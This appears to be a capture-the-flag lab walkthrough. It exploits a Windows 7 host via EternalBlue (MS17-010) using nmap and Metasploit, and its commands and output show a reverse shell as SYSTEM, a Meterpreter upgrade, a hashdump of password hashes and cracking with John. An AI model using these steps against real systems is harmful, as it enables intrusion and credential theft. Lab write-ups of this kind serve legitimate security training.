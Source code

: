 # Exploiting Windows and Eternal Blue

## **Recon** <a href="#we2kfvecue1z" id="we2kfvecue1z"></a>

Scan and learn what exploit target is vulnerable to.

```
nmap -sT -sV --script vuln -oN TARGET_IP_scan.nmap TARGET_IP
```

`-sV` attempt to determine version of running services.

`--script vuln` runs all scripts in the NSE "vuln" category to check for specific known vulnerabilities. Generally only reports results if they are found.

`-oN` saves results in "normal" format.

Target vulnerable to ms17-010.

{% code overflow="wrap" %}
```
| smb-vuln-ms17-010:
| VULNERABLE:
| Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
| State: VULNERABLE
| IDs: CVE:CVE-2017-0143
| Risk factor: HIGH
| A critical remote code execution vulnerability exists in Microsoft SMBv1
| servers (ms17-010).
|
| Disclosure date: 2017-03-14
| References:
| https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_ https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```
{% endcode %}

EternalBlue affects unpatched Windows versions earlier than 8 by exploiting vulnerability in SMBv1 protocol to cause buffer overflow that ultimately leads to remote code execution. EternalBlue was main attack vector used by WannaCry ransomware.

## **Gain Access** <a href="#h7rmm3pi2vzx" id="h7rmm3pi2vzx"></a>

Exploit machine and gain foothold.

Start Metasploit.

```
msfconsole
```

Find exploitation code to run against target.

{% code overflow="wrap" %}
```
search eternalblue type:exploit

Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/smb/ms17_010_eternalblue 2017-03-14 average Yes MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
1 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
2 exploit/windows/smb/smb_doublepulsar_rce 2017-04-14 great Yes SMB DOUBLEPULSAR Remote Code Execution
```
{% endcode %}

Select exploit.

```
use 0

[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Show available exploit options.

```
show options

set rhosts TARGET_IP.
set payload windows/x64/shell/reverse_tcp.
```

Execute exploit.

```
exploit

[*] Started reverse TCP handler on 10.10.173.11:4444
[*] 10.10.38.72:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.38.72:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.38.72:445 - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.38.72:445 - The target is vulnerable.
[*] 10.10.38.72:445 - Connecting to target for exploitation.
[+] 10.10.38.72:445 - Connection established for exploitation.
[+] 10.10.38.72:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.38.72:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.38.72:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.38.72:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.38.72:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1
[+] 10.10.38.72:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.38.72:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.38.72:445 - Sending all but last fragment of exploit packet
[*] 10.10.38.72:445 - Starting non-paged pool grooming
[+] 10.10.38.72:445 - Sending SMBv2 buffers
[+] 10.10.38.72:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.38.72:445 - Sending final SMBv2 buffers.
[*] 10.10.38.72:445 - Sending last fragment of exploit packet!
[*] 10.10.38.72:445 - Receiving response from exploit packet
[+] 10.10.38.72:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.38.72:445 - Sending egg to corrupted connection.
[*] 10.10.38.72:445 - Triggering free of corrupted buffer.
```

Confirm exploit has run properly.

```
[*] Command shell session 2 opened (10.10.173.11:4444 -> 10.10.38.72:49185) at 2024-02-20 09:58:59 +0000
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Shell Banner:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
```

## **Escalate** <a href="#id-2qpv4qwckp6d" id="id-2qpv4qwckp6d"></a>

Convert shell to meterpreter shell in metasploit.

`back` to move back to main Metasploit console.

```
search shell_to_meterpreter

Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 post/multi/manage/shell_to_meterpreter normal No Shell to Meterpreter Upgrade
use 0
show options
Module options (post/multi/manage/shell_to_meterpreter):
Name Current Setting Required Description
---- --------------- -------- -----------
HANDLER true yes Start an exploit/multi/handler to receive the connection
LHOST no IP of host that will receive the connection from the payload (Will try to auto detect).
LPORT 4433 yes Port for payload to connect to.
SESSION yes The session to run this module on
```

Set SESSION option to 2. Session 2 is active reverse shell from target.

Run exploit.

```
exploit
```

Shell upgraded to Meterpreter.

```
[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.173.11:4433
[*] Post module execution completed
```

Switch to new Meterpreter shell.

```
sessions -i 3

[*] Starting interaction with 3...
meterpreter >
```

Verify NT AUTHORITY\SYSTEM escalation.

```
getsystem

[-] Already running as SYSTEM
shell
Process 9968 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```

CTRL+Z to background shell.

Migrate Meterpreter shell to another process.

`ps` lists all running processes. Identify process running as NT AUTHORITY\SYSTEM and note Process ID (far left column). This may take several attempts as migrating processes is not very stable.

```
716 608 lsass.exe x64 0 NT AUTHORITY\SYST C:\Windows\system32\lsass.exe
```

## **Cracking** <a href="#nzvhx7l30l4" id="nzvhx7l30l4"></a>

Use hashdump within elevated Meterpreter shell to dump all passwords on target.

```
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copy and paste Jon user password hash to `jon.hash`.

Use John to crack the password.

```
john jon.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

Jon user password is "alqfna22".

## **Find Flags!** <a href="#p4op34t54b4s" id="p4op34t54b4s"></a>

flag1.txt located in C:\ directory. This location requires privileged access.

flag2.txt located in C:\Windows\system32\Config directory. This is privileged directory where SAM file located.

flag3.txt located in C:\Users\Jon\Documents directory. This location requires privileged access and may contain useful data.
